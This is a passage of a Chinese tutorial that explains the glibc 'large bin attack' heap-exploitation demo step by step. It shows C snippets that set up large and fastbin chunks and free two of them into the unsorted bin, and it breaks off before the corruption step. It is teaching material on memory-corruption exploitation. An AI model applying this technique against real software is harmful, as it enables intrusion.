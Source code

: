 这个文件通过向栈上写数据以展示 large bin attack。

实际上，large bin attack 通常被作为其他攻击的基础，例如重写 libc 中的全局变量。

首先 malloc 第一个 large chunk：

``` c++
    unsigned long *p1 = malloc(0x320);
    fprintf(stderr, "Now, we allocate the first large chunk on the heap at: %p\n", p1 - 2);
```

接下来为了避免合并下一个 large chunk 时与第一块 large chunk 合并，我们申请一块 fastbin chunk。

``` c++
    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the next large chunk with"
           " the first large chunk during the free()\n\n");
    malloc(0x20);
```

再申请第二块 large chunk：

``` c++
    unsigned long *p2 = malloc(0x400);
    fprintf(stderr, "Then, we allocate the second large chunk on the heap at: %p\n", p2 - 2);
```

为了避免下一块 large chunk free 的时候与 第二块合并，再申请一块 fastbin。

``` c++
    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the next large chunk with"
           " the second large chunk during the free()\n\n");
    malloc(0x20);
```

最后申请第三块 large chunk，和上面类似，为了防止 free 的时候与 top chunk 合并，我们还要申请一块 fastbin。

``` c++
    unsigned long *p3 = malloc(0x400);
    fprintf(stderr, "Finally, we allocate the third large chunk on the heap at: %p\n", p3 - 2);
 
    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the top chunk with"
           " the third large chunk during the free()\n\n");
    malloc(0x20);
```

接下来释放第一块 large chunk 和第二块 large chunk。

``` c++
    free(p1);
    free(p2);
    fprintf(stderr, "We free the first and second large chunks now and they will be inserted in the unsorted bin:"
           " [ %p <--> %p ]\n\n", (void *)(p2 - 2), (void *)(p2[0]));
```

它们会被加入 unsorted bin 中：
